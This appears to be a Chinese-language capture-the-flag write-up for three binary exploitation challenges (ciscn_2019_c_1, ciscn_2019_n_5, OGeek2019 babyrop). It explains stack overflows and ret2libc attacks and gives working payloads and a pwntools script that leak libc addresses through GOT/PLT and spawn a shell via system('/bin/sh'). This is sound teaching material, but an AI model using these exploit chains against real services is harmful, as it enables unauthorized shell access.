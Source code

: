 ## ciscn_2019_c_1
## ciscn_2019_en_2

ciscn_2019_c_1以及ciscn_2019_en_2，这两题没看出区别

```c
int encrypt()
{
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  // ...
  gets(s);
}
```

`gets`缓冲区溢出，但是程序中没有`system('/bin/sh')`，需要泄露libc

### 前置知识

[GOT表和PLT表](https://www.jianshu.com/p/0ac63c3744dd)

简单来说，plt表中`lib_fun`项存的是got表中`lib_fun`项的地址；但第一次调用`lib_fun`函数之前，got表中`lib_fun`项存的是一些装载工作的代码地址；在第一次调用开始后，装载代码把got表中`lib_fun`项存储的变为其实际地址

### 泄露函数地址

libc动态链接库有以下两个性质：

- 随库的版本不同，库中函数的地址不同
- 同一版本的库，两个函数的地址偏移相等

通过第一条性质，一旦我获得了任意libc库的函数地址，就能通过数据库得到libc的版本信息；得到版本信息之后，通过第二条性质，我又能计算出目标函数及字符串的地址（在这里是`system()`和`"/bin/sh"`）

[libc database search](https://libc.blukat.me/)

为了得到某个libc库的函数地址，可以使用输出的方式；由于plt表和got表的行为，在输出一个libc函数的地址之前需要先调用它，这就使得gets成为不二之选：只要构造出`gets(gets在got表中的地址)`的调用，就能输出`gets`的真实地址了

接下来考虑`gets(gets在got表中的地址)`这个调用的构造，由于64位程序使用寄存器传参，其中第一个参数是`%rdi`，而通过溢出，我能够影响的只有栈；那么我该做的就是：把栈顶数据弹出到`%rdi`，也就是`pop %rdi`指令；当然，由于跳转到这条指令之后我还需要跳转到`gets@plt`这个函数，所以当然还需要一个`ret`。故，我需要在程序中找到这样一条指令：`pop %rdi; ret`（在一些64位C程序中，其地址是0x400c83）。

得到`gets`之后怎么办？我还没把`system("/bin/sh")`打出去呢！重新进一遍有漏洞的地方就好了。那就可以构造出合适的栈数据了，根据函数的调用规则，以及由于缓冲区溢出需要覆盖返回地址，是：溢出填充 + `pop_rdi_ret`（返回地址覆盖） + `puts_got`（puts参数） + `puts_plt`（puts函数地址） + `encrypt`（puts返回）

在本题中是`payload = b'a' * 0x58 + p64(0x400c83) + p64(elf_file.got['puts']) + p64(elf_file.plt['puts']) + p64(0x4009a0)`

### 打出`system("/bin/sh")`

打出了第一阶段的payload之后，我能够得到`gets`的真实地址了。在[libc database search](https://libc.blukat.me/)上搜索可以得到几个函数的偏移地址。

二阶段的payload构造原理和一阶段的相同，额外需要注意的是，有些系统对`system`函数的调用要求`%rsp`的低4位是0（参考：[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)），靶机上就是这样一个系统。在本题中此时的`%rsp`低4位是8，只需要在栈上多叠一次`ret`指令（0x400c85）即可。

`payload = b'a' * 0x58 + p64(0x400c85) + p64(0x400c83) + p64(bin_sh) + p64(system)`

需要注意的是，`encrypt`函数对缓冲区中的字符进行了异或操作，可能需要复原一下（尽管在本exp中没有写也攻击成功了）


## ciscn_2019_n_5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets(text);
  return 0;
}
```

与[ciscn_2019_c_1](#ciscn_2019_c_1)较相似，不过写得更快，代码也更好看了点，算是一种小进步

```python
context(os='linux', arch='amd64')
pop_rdi_ret = next(elf.search(asm('pop rdi\nret')))
payload_a = b'a'*0x28 + p64(pop_rdi_ret) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(elf.symbols['main'])
io.sendline(payload_a)
puts_addr = u64(io.recvline()[:-1].ljust(8, b'\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')
payload_b = b'a'*0x28 + p64(pop_rdi_ret+2) + p64(pop_rdi_ret) + p64(bin_sh) + p64(system)
```

## [OGeek2019]babyrop

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h] BYREF
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}

int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}

ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    result = read(0, buf, 0xC8u);
  else
    result = read(0, buf, a1);
  return result;
}
```

`main()`函数产生一个随机的整数；第一个函数将该整数字符串化，让用户输入一个字符串进行比较，相等时返回用户输入的第8个字符a；此作为第三个函数的输入，从`stdin`读取a字节的数据，而缓冲区距离栈顶0xe7字节；所以解题点是缓冲区溢出

`strncmp(s1, s2, 0)`的调用总是返回0的，故构造`strlen(buf)`为0，又因为`read()`函数读取固定大小，故只需第一个输入的首字节`\x00`；并且第一个输入的第8个字符a作为第三个函数的读取数量，应该是`\xff`；

`payload_a = b'\x00' + b'\xff'*0x18`

之后第二个输入就是缓冲区溢出覆盖返回地址了，由于程序中没有`system("/bin/sh")`，故需要构造rop；注意本题中靶机是32位，不需要`pop_rdi_ret`；已用过的输出函数有`write(stream, buf, size)`

payload = 填充 + write函数地址（用于泄露libc） + 漏洞函数地址（二次进入漏洞以调用`system("/bin/sh")`） + 1（stream=stdout） + write_got（buf=write_got） + 4（size=4）

但是，由于漏洞函数`sub_80487D0(a1)`需要额外参数，而栈在构造rop时已经被破坏了，（在以下payload中，会调用`sub_80487D0(a1=p32(elf_file.got['write']))`）故只能返回到无参数的`main()`函数中

`payload_b = b'a'*(0xe7+4) + p32(elf_file.plt['write']) + p32(0x8048825) + p32(1) + p32(elf_file.got['write']) + p32(4)`

之后利用远端回显的地址和本题提供的.so文件，计算出目标函数信息，再打出一次`payload_a`二次进入漏洞函数，打出`system("/bin/sh")`

`payload_c = b'a'*(0xe7+4) + p32(system) + b'c'*4 + p32(bin_sh)`
